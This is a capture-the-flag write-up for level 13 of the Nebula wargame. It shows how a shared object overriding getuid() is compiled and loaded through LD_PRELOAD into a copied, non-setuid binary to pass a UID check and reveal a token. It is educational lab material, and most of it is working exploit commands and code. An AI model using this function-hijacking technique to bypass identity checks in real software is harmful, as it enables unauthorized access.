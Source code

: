 Wow, so we can use it to "selectively override functions in other shared libraries"!

But before writing our overriding `shared object`, is `flag13` `dymanically linked`?
```console
level13@nebula:/home/flag13$ file flag13
flag13: setuid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.15, not stripped
```
Yes it is, let's write an evil `getuid()`!
```console
man getuid
```
We need to implement `getuid()`'s header.
```
NAME
       getuid, geteuid - get user identity

SYNOPSIS
       #include <unistd.h>
       #include <sys/types.h>

       uid_t getuid(void);
       uid_t geteuid(void);
```
```c
#include <sys/types.h>

uid_t getuid(void){
  return 1000;
}
```
Compile it as an `so`.
```console
level13@nebula:/home/flag13$ gcc /home/level13/evil.c -shared -o /home/level13/evil.so
```
And `LD_PRELOAD`!
```console
level13@nebula:/home/flag13$ LD_PRELOAD=/home/level13/evil.so ./flag13
Security failure detected. UID 1014 started us, we expect 1000
The system administrators will be notified of this violation
```
Wait what? Oh...

Notice `flag13`'s permissions:
```console
level13@nebula:/home/flag13$ ls -la flag13
-rwsr-x--- 1 flag13 level13 7321 2011-11-20 21:22 flag13
```
`setuid` bit is set, and according to `LD_PRELOAD`'s description in `man ld.so`:
> For setuid/setgid ELF binaries, only libraries in the standard search directories that are also setgid will be loaded.

Copy the binary to remove the `setuid`.
```console
level13@nebula:/home/flag13$ cp ./flag13 /home/level13/flag13
level13@nebula:/home/flag13$ ls -la /home/level13/flag13
-rwxr-x--- 1 level13 level13 7321 2021-06-26 11:29 /home/level13/flag13
```
And run copied version.
```console
level13@nebula:/home/flag13$ LD_PRELOAD=/home/level13/evil.so /home/level13/flag13
your token is b705702b-76a8-42b0-8844-3adabbe5ac58
```
